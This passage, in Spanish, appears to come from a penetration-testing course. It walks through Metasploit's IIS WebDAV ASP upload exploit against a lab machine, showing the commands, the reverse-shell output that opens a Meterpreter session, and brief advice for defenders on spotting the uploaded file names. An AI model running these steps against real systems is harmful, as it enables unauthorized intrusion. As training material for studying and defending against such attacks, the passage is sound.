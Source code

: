 ### MSF - Configuración del Exploit y Payload

```plaintext
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOST 10.10.10.15
```

```plaintext
RHOST => 10.10.10.15
```

```plaintext
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set LHOST tun0
```

```plaintext
LHOST => tun0
```

```plaintext
msf6 exploit(windows/iis/iis_webdav_upload_asp) > run
```

```less
[*] Controlador TCP inverso iniciado en 10.10.14.26:4444 
[*] Comprobando /metasploit28857905.asp
[*] Subiendo 612435 bytes a /metasploit28857905.txt...
[*] Moviendo /metasploit28857905.txt a /metasploit28857905.asp...
[*] Ejecutando /metasploit28857905.asp...
[*] Enviando stage (175174 bytes) a 10.10.10.15
[*] Eliminando /metasploit28857905.asp (esto no siempre funciona)...
[!] Fallo en la eliminación de /metasploit28857905.asp [403 Forbidden]
[*] Sesión de Meterpreter 1 abierta (10.10.14.26:4444 -> 10.10.10.15:1030) a las 2020-09-03 10:10:21 +0000
```

```plaintext
meterpreter > 
```

Tenemos nuestro shell de Meterpreter. Sin embargo, echemos un vistazo más de cerca a la salida anterior. Podemos ver que hay un archivo .asp llamado `metasploit28857905` que existe en el sistema objetivo en este momento. Una vez que se obtiene el shell de Meterpreter, como se mencionó antes, residirá en la memoria. Por lo tanto, el archivo no es necesario y se intentó eliminar mediante `msfconsole`, que falló debido a permisos de acceso. Dejar rastros como estos no es beneficioso para el atacante y crea una gran responsabilidad.

Desde la perspectiva del administrador del sistema, encontrar archivos que coincidan con este tipo de nombre o ligeras variaciones de él puede ser beneficioso para detener un ataque en medio de su ejecución. Dirigir coincidencias de regex contra nombres de archivos o firmas como las anteriores no permitirá ni siquiera que un atacante genere un shell de Meterpreter antes de ser neutralizado por las medidas de seguridad configuradas correctamente.

Procedemos con nuestros exploits. Al intentar ver qué usuario estamos ejecutando, recibimos un mensaje de acceso denegado. Debemos intentar migrar nuestro proceso a un usuario con más privilegios.

### MSF - Migración de Meterpreter

```plaintext
meterpreter > getuid
```
